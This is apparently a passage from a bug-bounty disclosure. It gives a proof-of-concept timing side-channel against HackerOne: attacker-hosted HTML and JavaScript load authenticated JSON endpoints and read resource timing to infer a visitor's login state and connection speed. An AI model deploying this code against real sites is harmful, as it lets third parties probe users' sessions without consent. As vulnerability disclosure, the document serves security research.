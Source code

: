 ```
    t = resources[i].responseEnd - resources[i].responseStart;
    console.log(t);
 }
}
</script>
</head>
<body>
<img id="grr" src="https://hackerone.com/bugs.json?text_query=3%08&subject=%01&sort_type=upvotes&substates%5B%5D=spam">
</body>
</html>
```

1. Host it on "attacker" domain
2. If you are logged in on HackerOne and you visit attacker domain the script will work e.g. 200 response code will cause the script to measure the load time, if not load time won't be shown ( http 400, 500 status codes)
3. Find interesting endpoints that could deliver conclusions or static data that could help in future.

Detailed description:

At the moment will deliver always constant output for any logged in user ~750b: https://hackerone.com/bugs.json?text_query=999999&subject=&sort_type=pg_search_rank&substates%5B%5D=triaged  

This one too ~9200b : https://hackerone.com/programs/search.json?query=IBB&sort=published_at%3Adescending&page=1

This means we as logged in users could measure the average size in bytes from those two responses and this values are almost the same for any logged in user on HackerOne.

Now when victim ( logged in on HackerOne ) visits the "attacker" web site, the attacker web site could measure the time needed for many calls towards this endpoints => we can get idea regarding the internet speed of victim e.g.

Measure average page load for search.json with this script 1.php ( host it, visit it logged on H1 and type `calculate_load_times()` in browser console )
```
<html>
<head>
<script>
function calculate_load_times() {
  // Check performance support
  if (performance === undefined) {
    console.log("= Calculate Load Times: performance NOT supported");
    return;
  }

  // Get a list of "resource" performance entries
  var resources = performance.getEntriesByType("resource");
  if (resources === undefined || resources.length <= 0) {
    console.log("= Calculate Load Times: there are NO `resource` performance records");
    return;
  }

  console.log("= Calculate Load Times");
  for (var i=0; i < resources.length; i++) {
    // Response time
    t = resources[i].responseEnd - resources[i].responseStart;
    console.log(t);
  }
}
</script>
</head>
<!-- https://hackerone.com/programs/search?query=test&sort=published_at%3Adescending&page=1 -->
<body>
```